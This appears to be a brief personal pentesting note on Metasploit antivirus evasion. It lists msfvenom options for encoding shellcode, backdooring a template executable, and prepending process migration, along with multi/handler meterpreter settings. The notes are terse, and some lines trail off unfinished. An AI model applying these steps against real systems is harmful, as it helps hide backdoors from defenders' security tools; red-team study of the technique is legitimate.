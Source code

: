 
# Metasploit AV-Evasion


A [[MSFvenom-Payloads]] are blank executables that are injected with shellcode.

```bash
# Find the 
msfvenom -l encoder | grep x$BIT
--enc  
-i # iterations of encoding

# Specify a custom executable 
# Either it will overwrite the entry point of the file
# Or...
# Use non-Microsoft binaries 
# Microsoft probably does not want their .exe to be backdoored
-x, --template
# Prevent crashing of binary 
EXITFUNC=thread
# Show Advanced 
PREPENDMIGRATE=true
PREPENDMIGRATEPROC=$bin.exe
```

At the multi/handler:
```ruby
show advanced
# For meterpreter usage
# Disable the STD API - less options, but still good
set autoloadstdapi false 

set PrependMigrate $file.exe

# For runtime temporal actualities
AutoRunScript post/windows/manage/migrate
```



## References


[Alh4zr3d]() - Watched Live, find VOD or youtube